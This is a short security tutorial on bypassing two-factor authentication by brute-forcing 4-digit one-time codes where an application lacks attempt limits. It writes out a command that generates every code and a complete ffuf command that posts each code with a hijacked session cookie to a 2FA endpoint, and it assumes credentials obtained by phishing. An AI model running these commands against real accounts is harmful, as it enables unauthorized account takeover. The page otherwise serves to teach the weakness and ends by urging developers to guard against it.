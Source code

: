 # Brute-Forcing 2FA Codes

Two-factor authentication (2FA) adds an extra layer of security to user accounts by requiring two forms of authentication. Typically, this involves combining knowledge-based authentication (like a password) with ownership-based authentication (like a device generating a one-time code).

2FA significantly reduces the risk of unauthorized access, making it more difficult for attackers to breach accounts even if they have the user's credentials.

***

**Common Implementation of 2FA:**

* A typical 2FA setup involves a password and a time-based one-time password (TOTP) generated by an authenticator app or sent via SMS.
* TOTPs are usually numeric and can be vulnerable if they are short and the application does not limit the number of incorrect attempts.

***

**Attacking Two-Factor Authentication:**

1. **Scenario Setup:**
   * Assume valid credentials were obtained through a phishing attack (e.g., `admin:admin`).
   * After logging in, the user is prompted for a TOTP, indicating that 2FA is enabled.
2. **Identifying the TOTP Request:**
   * The TOTP is passed in the `otp` POST parameter, and a session token (e.g., `PHPSESSID`) is required to maintain the authenticated session.
3.  **Generating a Token Wordlist:**

    * Create a wordlist of all possible 4-digit TOTP values (0000 to 9999):

    ```bash
    seq -w 0 9999 > tokens.txt
    ```
4.  **Brute-Forcing the TOTP:**

    * Use `ffuf` to automate the brute-forcing of the TOTP:

    {% code overflow="wrap" %}
    ```bash
    ffuf -w ./tokens.txt -u http://example.com/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=<PHP_SESSION_ID>" -d "otp=FUZZ" -fr "Invalid 2FA Code"
    ```
    {% endcode %}

    * This command attempts each TOTP from the wordlist, filtering out responses that indicate an invalid code.
5. **Successful Authentication:**
   * If a valid TOTP is found (e.g., `FUZZ: 6513`), the session is marked as fully authenticated.
   * Subsequent requests using the session cookie can access protected resources, such as `/admin.php`.

***

#### Summary:

Two-factor authentication enhances account security by requiring two forms of verification. However, if the TOTP is short and the application does not limit incorrect attempts, it can be vulnerable to brute-force attacks. By generating a list of possible TOTPs and using automated tools like `ffuf`, attackers can potentially bypass 2FA and gain unauthorized access to accounts. It is essential for developers to implement robust security measures to protect against such vulnerabilities.
